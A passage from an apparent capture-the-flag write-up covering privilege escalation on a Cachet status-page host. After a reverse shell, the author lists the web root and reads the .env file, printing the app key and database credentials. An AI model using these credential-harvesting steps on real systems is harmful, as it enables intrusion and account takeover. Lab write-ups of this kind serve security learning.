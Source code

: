 ### Privilege Escalation to will
After obtaining the reverse shell, we notice that the usual commands like ```wget```, ```curl``` etc are not available. This led me to give an assumption that we are in a container. 

Now, let us first check the environment variables and see if we are able to find any .env files. In /var/www/html/Cachet, we are able to find an environment file. 

```
www-data@3f6f4581fcca:/var/www/html/Cachet$ ls -la | grep .env
ls -la | grep .env
-rw-r--r--  1 www-data www-data    717 Mar  3 03:22 .env
-rw-r--r--  1 www-data www-data    657 Mar  3 02:39 .env.example
```

Next, let us read the contents of the environment file. We actually noticed that we are able to obtain a database username and database password from the environment file. 

```
cat .env
APP_ENV=production
APP_DEBUG=false
APP_URL=http://localhost
APP_TIMEZONE=UTC
APP_KEY=base64:9mUxJeOqzwJdByidmxhbJaa74xh3ObD79OI6oG1KgyA=
DEBUGBAR_ENABLED=false

DB_DRIVER=mysql
DB_HOST=localhost
DB_UNIX_SOCKET=null
DB_DATABASE=cachet
DB_USERNAME=will
DB_PASSWORD=s2#4Fg0_%3!
DB_PORT=null
DB_PREFIX=null

CACHE_DRIVER=file
SESSION_DRIVER=database
QUEUE_DRIVER=null

CACHET_BEACON=true
CACHET_EMOJI=false
CACHET_AUTO_TWITTER=true

MAIL_DRIVER=smtp
MAIL_HOST=
MAIL_PORT=null
MAIL_USERNAME=
MAIL_PASSWORD=
MAIL_ADDRESS=notify@10.129.136.74
MAIL_NAME=null
MAIL_ENCRYPTION=tls

REDIS_HOST=null
REDIS_DATABASE=null
REDIS_PORT=null

GITHUB_TOKEN=null

NEXMO_KEY=null
NEXMO_SECRET=null
NEXMO_SMS_FROM=Cachet

TRUSTED_PROXIES=
```
